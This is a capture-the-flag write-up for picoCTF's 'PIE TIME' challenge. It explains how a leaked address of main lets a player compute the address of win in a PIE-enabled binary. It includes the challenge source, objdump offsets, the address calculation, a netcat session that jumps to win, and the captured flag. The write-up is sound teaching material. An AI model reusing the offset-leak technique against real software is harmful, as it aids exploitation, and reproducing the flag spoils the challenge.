 ```yaml
---
description: 'Author: Darkraicg492'
---
```


# PIE TIME

***

### Step 1: Reconnaissance

First things first, let’s check the binary protections:

```
└─$ checksec --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   78 Symbols        No    0               1               vuln
```

Notice that **PIE is enabled**.\
This means the program’s memory layout will change on each execution — so we can’t just guess function addresses, they’ll slide around every time.

If you’re new to PIE, I recommend giving this a quick read:\
👉 [Ir0nstone’s notes on PIE](https://ir0nstone.gitbook.io/notes/binexp/stack/pie)

***

### Step 2: Looking at the Source Code

The challenge kindly provides the source code. Here are the important parts:

```c
int win() {
    FILE *fptr;
    char c;

    printf("You won!\n");
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL) {
        printf("Cannot open file.\n");
        exit(0);
    }

    c = fgetc(fptr);
    while (c != EOF) {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    printf("\n");
    fclose(fptr);
}

int main() {
    signal(SIGSEGV, segfault_handler);
    setvbuf(stdout, NULL, _IONBF, 0);

    printf("Address of main: %p\n", &main); // Leaks main's address

    unsigned long val;
    printf("Enter the address to jump to, ex => 0x12345: ");
    scanf("%lx", &val);

    void (*foo)(void) = (void (*)())val;
    foo(); // Jump!
}
```

#### Key Observations

* The program literally asks for an address and jumps to it.
* The `win()` function prints the flag, but we need its address.
* Since PIE is enabled, addresses change per run.
* Luckily, the program **prints main’s address** each time. That’s our reference point.

***

### 🤔 Strategy

We can use the leaked `main()` address to calculate where `win()` lives.

#### Formula:

```
base = main_address - main_offset
win_address = base + win_offset
```

***

### Step 3: Finding Offsets

Let’s disassemble with objdump:

```
└─$ objdump -d vuln | grep ">:"
00000000000012a7 <win>:
000000000000133d <main>:
```

* `win_offset = 0x12a7`
* `main_offset = 0x133d`

***

### Step 4: Calculating the Address

Suppose the program gives us:

```
Address of main: 0x558860d7633d
```

We calculate `win` like this (using Python because… yeah, hex math in head is pain):

```python
>>> hex((0x558860d7633d - 0x133d) + 0x12a7)
'0x558860d762a7'
```

That’s our target address for `win()`.

***

### Step 5: Exploitation

Let’s test it:

```
└─$ nc rescued-float.picoctf.net 54799
Address of main: 0x609e7137533d
Enter the address to jump to, ex => 0x12345: 0x609e713752a7
Your input: 609e713752a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_28a46dcd}
```

Flag captured ✅

***

### 🔑 Key Takeaways

* **PIE** (Position Independent Executable) randomizes addresses each run.
* Leaked addresses (like `main`) can be used as a reference.
* Subtract offset → get base → add target offset → jump to the correct function.
* Some challenges are as straightforward as “just give me the right function address.”

✨ PIE may shuffle the deck, but math always wins. ✨
